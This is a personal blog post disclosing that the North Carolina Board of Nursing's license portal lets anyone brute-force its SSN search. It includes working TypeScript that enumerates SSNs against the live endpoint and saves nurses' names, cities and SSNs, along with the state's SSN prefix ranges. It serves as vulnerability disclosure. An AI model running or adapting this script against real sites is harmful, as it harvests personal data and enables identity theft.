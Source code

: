 ```yaml
---
layout: project
title: Social security number vulnerability for NC Nurses
thumbnail: images/fetchbyssn.png
stack:
  - TypeScript
slug: ncbon-summary
source: https://github.com/willkrakow
publicId: carbon_1_okmryp
description: State agency website reveals social security numbers for registered nurses in North Carolina
date: 2023-02-21
---
```


A few months back my wife started a new nursing job. Around 10AM on her first day, she called and asked me to look up the renewal deadline for her nursing license. Being the good work-from-home husband that I am, I did some Googling and landed on the [North Carolina Board of Nursing License Verification Portal](https://portal.ncbon.com/LicenseVerification/search.aspx).

The portal offers three ways to search for a license: by name, by license number, and by **social security number**. This last one caught my eye - any time a feature related to SSNs is presented on a publicly facing website there's a possibility for data leaks. And state governments have shown [a lack of diligence](https://arstechnica.com/tech-policy/2021/10/missouri-gov-calls-journalist-who-found-security-flaw-a-hacker-threatens-to-sue/) with respect to their employees SSNs before. So I began digging, for evidence of data mishandling.

**What I found was that I could brute force the SSN search feature to get a list of names, social security numbers, and cities of residence for a large portion of nurses, nursing assistants, and nurse practitioners registered in the state of North Carolina.**

---

To understand how this was possible - almost trivially so - we first need to examine domain of our search: the 1 billion possible nine-digit social security numbers.

The fact that SSNs serve as our nation's de facto 'password' that citizens must use to navigate legal, financial, and professional systems in the United States is somewhat of a duct-tape job. SSNs were never meant to be such a sensitive, critical token - they were introduced to keep track of income taxes. Cards issued between 1946 and 1972 were labeled ["Not for identification purposes"](https://web.archive.org/web/20120629234649/http://www.americanchronicle.com/articles/view/3911). However, in the 1960s, [the government shoehorned them into their current general identification role](https://www.ssa.gov/history/reports/ssnreportc2.html) to simplify digital record-keeping across agencies.

> Ironically, despite serving as a pseudo-password to opening a credit card, verifying a license, or retrieving sensitive medical information, SSNs would fail nearly all password requirement checks on modern websites. 

In 2011, the Social Security Administration [began assigning SSNs in a pseudorandom fashion](https://www.ssa.gov/employer/randomization.html), rather than by state (as it did prior to 1972) or ZIP code (1972-2011) as it had in the past. But for those of us born prior to 2011, a bad actor only needs to know the year and US state in which someone was born to quickly assert the first three numbers (e.g., `123-##-####`), or at least a range of those first three numbers (e.g., `123-##-####` through `125-##-####`). Even the largest state by population, California, had only 81 possible three-digit prefixes between 1973 and 2011 - that means we can be certain that a person born in California between those years *does not* have an SSN in the remaining **99.2%** of all possible combinations.

For those whose parents applied for a social security card in North Carolina between 1972 and 2011 - your SSN is either between `237-##-####` and `246-##-####`, or (less likely) `681-##-####` and `690-##-####`.

---

So back to my "hacking". I began by digging in the most obvious place: the HTML source and the network requests. I searched for my wife by name, then opened up the dev console and did a quick regex search various forms of her SSN (e.g., `#########`, `###-##-####`, `### ## ####`) - and came up empty. Good!

The network requests were also clean - they *were* sending SSNs as a query parameter to the a `/Search.aspx` endpoint, but it seemed resistant to trivial SQL injections. Another point for the Board.

I had assumed that the endpoint would be rate limited and protected with some sort of malicious threat protection, but even after nearly an hour of entering obvious SQL injections and malformed requests, my IP hadn't been blocked. Maybe I could just brute force this?

To test my theory, I copied the `/Search.aspx` API call as a curl request and sent a few test payloads. And there it was - the API was returning different response statuses for positive results and negative results, and the results list for a given SSN query was serialized in an ASP.NET `_VIEWSTATE` attribute.

To test the extent of this vulnerability I wrote ~50 lines of TypeScript that would loop through a shortened list of 1 million numbers (e.g., `###-00-0000` through `###-99-9999`) and check if the response had results or not. I let that script run for about 20 minutes - with no interval randomization, no IP address shuffling, no proxy server, and managed to construct a list of over 1000 names, SSNs, and cities of residence for the nurses of North Carolina. With a little optimization, I'm confident I could retrieve thousands of results in an equally short amount of time.

Here are the important bits of the code.

<details>
    <summary>Performing a search by SSN</summary>

```typescript
const fetchBySSN = (num: string) => fetch("https://portal.ncbon.com/LicenseVerification/search.aspx", {
        method: "POST",
        headers: {
            "accept": "text/html,application/xhtml+xml",
            "content-type": "application/x-www-form-urlencoded",
            "sec-fetch-dest": "document",
            "sec-fetch-site": "same-origin",
            "sec-fetch-user": "?1",
            "cookie": `ASP.NET_SessionId=${SESSION_ID}`
        },

        "referrerPolicy": "strict-origin-when-cross-origin",
        "referrer": "https://portal.ncbon.com/LicenseVerification/search.aspx",
        body: `__VIEWSTATE=%...txtSSN=${num}&...`,
})

// Negative results contain the string "unable to locate any results...". Positive results will contain an empty ul for the error messages.
```
</details>

<details>
<summary>Fetching the results</summary>

```typescript

const fetchResultsList = () => fetch("https://portal.ncbon.com/LicenseVerification/resultList.aspx", {
        headers: {
            "authority": "portal.ncbon.com",
            "accept": "text/html,application/xhtml+xml",
            "cache-control": "no-cache",
            "cookie": `ASP.NET_SessionId=${SESSION_ID}`,
            "referer": "https://portal.ncbon.com/licenseverification/search.aspx",
            "sec-fetch-dest": "document",
            "sec-fetch-site": "same-origin",
            "sec-fetch-user": "?1"
        }
})
```
</details>

<details>
<summary>Sample response</summary>

```html
...
<tr>
	<td>M**** P*******</td>
	<td>Asheville, NC</td>
	<td>NAII Listing</td>
	<td class="text-right">
        <input type="button" value="View Record" class="btn btn-info btn-xs" onclick="document.location='/LicenseVerification/result.aspx?ID=7****5';" />
    </td>
</tr>
...
```
</details>

<details>
    <summary>Looping through the range of SSNs</summary>

```typescript
const prefixes = ['']

const ssnFetches = async () => {
    const filename = path.join(__dirname, 'results_new.txt');
    fs.appendFileSync(filename, 'Results');

    let totalFound = 0;

    for await (let prefix of prefixes) {
        for (let i = 1; i < 100; i++) {
            let areaCode = `${i}`;
            if (i < 10) {
                areaCode = `0${i}`
            }
            for (let j = 9998; j > 1000; j--) {
                let lastFour = `${j}`
                const fullSSN = `${prefix}-${areaCode}-${lastFour}`
                try {
                    const res = await fetchBySSN(fullSSN);
                    if (res.status !== 200) {
                        console.error("Error fetching")
                        console.error(res.statusText)
                        continue
                    }
                    const text = await res.text()
                    if (text.includes('unable to locate any results matching ')) {
                        console.info(`No matches for ${fullSSN}`)
                        continue;
                    }
                    const resultString = `${fullSSN} - is a nurse\n`

                    const resultResponse = await fetchResultsList(); // Fetch the results HTML using the same session cookie
                    const resultHtml = await resultResponse.text();
                    const document = new jsDom.JSDOM(resultHtml);
                    const nodes = document.window.document.querySelectorAll("div.primaryContent tr"); // Grab the results from the <table>
                    const results = [...nodes]
                        .slice(1) // Remove header row
                        .map(row => ({
                            name: row.children[0].innerHTML,
                            location: row.children[1].innerHTML,
                            ssn: fullSSN,
                        }));
                    fs.appendFileSync(filename, JSON.stringify(results));
                    totalFound += 1;
                    console.log(`total found: ${totalFound}`)
                    console.log(resultString)
                } catch (err) {
                    console.error(err)
                }
            }
        }
    }    
}
```
</details>

---

I reported these findings to the NCBON immediately after discovery and initial documentation. About 24 hours later, I still hadn't heard back, though they had commented out the section of HTML that displayed the SSN search so they clearly read my message. However, the API endpoint was still open, and again I was able to exploit it with no problems. I sent another message mentioning this, and a few hours later received a call from the Board's Chief Legal Officer.

The legal officer apologized for the delay, thanked me for being forthcoming, and we set up a time to meet with the IT Director to discuss the issue the following day. I sent over the scripts, payloads, screenshots, and a timeline as well as a summary of my findings and recommendations, and they said they'd get back to me with any questions.

---

It's been about 45 days since that call, which is more than the 30 day disclosure window I thought was adequate. Last I checked, the endpoint was still open.




